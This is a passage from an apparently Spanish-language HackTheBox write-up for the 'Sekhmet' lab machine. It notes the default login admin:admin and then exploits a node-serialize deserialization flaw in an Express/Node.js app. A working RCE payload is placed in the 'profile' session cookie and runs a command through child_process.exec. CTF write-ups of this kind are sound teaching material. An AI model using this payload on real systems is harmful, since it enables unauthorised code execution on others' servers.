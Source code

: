 Lo añado al ```/etc/hosts```. Corresponde a un panel de inicio de sesión

<img src="/writeups/assets/img/Sekhmet-htb/2.png" alt="">

Las credenciales de acceso son ```admin:admin```

Está utilizando el Framework ```Express``` y ```Node.js```

<img src="/writeups/assets/img/Sekhmet-htb/3.png" alt="">

Es vulnerable a un ataque de deserialización. Está detallado todo en [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization#node-serialize)

Modifico la cookie de sesión ```profile``` por un payload en base64 y urlencodeado

```null
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ping 10.10.16.2', function(error, stdout, stderr) { console.log(stdout) })}"}
```
